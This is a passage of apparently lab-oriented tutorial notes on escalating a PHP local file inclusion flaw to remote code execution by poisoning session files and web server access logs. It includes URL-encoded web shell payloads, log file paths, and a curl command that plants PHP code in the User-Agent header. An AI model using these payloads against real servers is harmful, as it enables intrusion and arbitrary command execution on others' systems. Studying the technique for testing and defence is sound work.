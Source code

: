 ```
Cookie: PHPSESSID=nhhv8i0o6ua4g88bkdl9u1fdsd
```
###### Then include it:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>
```
###### 2. Test for control over session values:

```
http://<SERVER_IP>:<PORT>/index.php?language=session_poisoning
```
###### 3. Poison with web shell (URL encoded):

```
http://<SERVER_IP>:<PORT>/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E
```
###### 4. Execute it:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_<PHPSESSID>&cmd=id
```

> ⚠️ Needs re-poisoning after every execution (session gets overwritten).
## Apache / Nginx Log Poisoning

If readable, server logs can also be poisoned and executed:

- **Apache (Linux):** `/var/log/apache2/access.log`
- **Apache (Windows):** `C:\xampp\apache\logs\access.log`
- **Nginx (Linux):** `/var/log/nginx/access.log`
- **Nginx (Windows):** `C:\nginx\log\access.log`

Try reading it:

```
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```
### Poison the Logs
###### Modify User-Agent header:

```http
User-Agent: <?php system($_GET['cmd']); ?>
```

Burp Suite:

- Intercept a request.
- Edit the `User-Agent` header with PHP code.    

Or use curl:

```bash
echo -n "User-Agent: <?php system(\$_GET['cmd']); ?>" > Poison
curl -s "http://<SERVER_IP>:<PORT>/index.php" -H @Poison
```

